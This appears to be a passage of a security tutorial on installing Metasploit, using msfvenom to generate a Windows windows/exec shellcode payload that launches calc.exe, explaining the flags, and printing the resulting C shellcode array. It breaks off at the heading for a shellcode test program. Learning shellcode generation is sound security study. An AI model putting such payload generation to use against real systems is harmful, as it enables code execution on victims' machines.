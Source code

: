 #### Practical Metasploit Approach

**Installing Metasploit (Without Snap)**

bash

```
# Download official installer
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

# Make executable and run
chmod +x msfinstall
sudo ./msfinstall
```

**Generating Windows Shellcode**

bash

```
msfvenom -p windows/exec CMD=calc.exe -f c -a x86 --platform windows -b '\x00'
```

**Flags Explanation:**

* `-p windows/exec`: Payload that executes a command
* `CMD=calc.exe`: Command to execute
* `-f c`: Output format (C array)
* `-a x86`: Architecture (32-bit)
* `--platform windows`: Target platform
* `-b '\x00'`: Remove null bytes (common bad character)

**Example Output**

c

```
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
```

**Windows Shellcode Testing Program**

c
